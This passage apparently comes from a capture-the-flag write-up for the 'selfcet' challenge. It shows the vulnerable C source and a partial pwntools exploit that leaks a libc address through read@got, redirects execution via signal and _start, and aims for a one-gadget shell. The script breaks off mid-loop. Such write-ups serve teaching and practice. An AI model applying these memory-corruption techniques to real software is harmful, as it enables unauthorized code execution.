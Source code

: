 Finally, we can overwrite the return address to one gadget to get a shell.

```c
// main.c
#define INSN_ENDBR64 (0xF30F1EFA) /* endbr64 */
#define CFI(f)                                              \
  ({                                                        \
    if (__builtin_bswap32(*(uint32_t*)(f)) != INSN_ENDBR64) \
      __builtin_trap();                                     \
    (f);                                                    \
  })

...

void read_member(ctx_t *ctx, off_t offset, size_t size) {
  if (read(STDIN_FILENO, (void*)ctx + offset, size) <= 0) {
    ctx->status = EXIT_FAILURE;
    ctx->error = "I/O Error";
  }
  ctx->buf[strcspn(ctx->buf, "\n")] = '\0';

  if (ctx->status != 0)
    CFI(ctx->throw)(ctx->status, ctx->error);
}

...

  read_member(&ctx, offsetof(ctx_t, key), sizeof(ctx));
  read_member(&ctx, offsetof(ctx_t, buf), sizeof(ctx));

```


```python
# solve.py
import os

os.environ["PWNLIB_NOTERM"] = "1"
from pwn import *

context.arch = 'amd64'
context.bits = 64

while True:
    r = remote("selfcet.seccon.games", 9999)

    try:
        r.send(flat({
            0x48: 0x403FE8,  # read@got
            0x50: b"\x10\x20",
        }))
        r.recvuntil(b"xor: ")
        leak = r.recvuntil(b": Success")[:-9]
        libc = ELF("selfcet.libc")
        libc.address = u64(leak.ljust(8, b"\x00")) - libc.symbols["read"]
        print("libc.address", hex(libc.address))

        r.send(flat({
            0x48 - 32: p32(6),
            0x40 - 32: 0x401020,  # _start
            0x50 - 32: libc.symbols["signal"],
        }).ljust(0x58, b"\x00"))

        #

```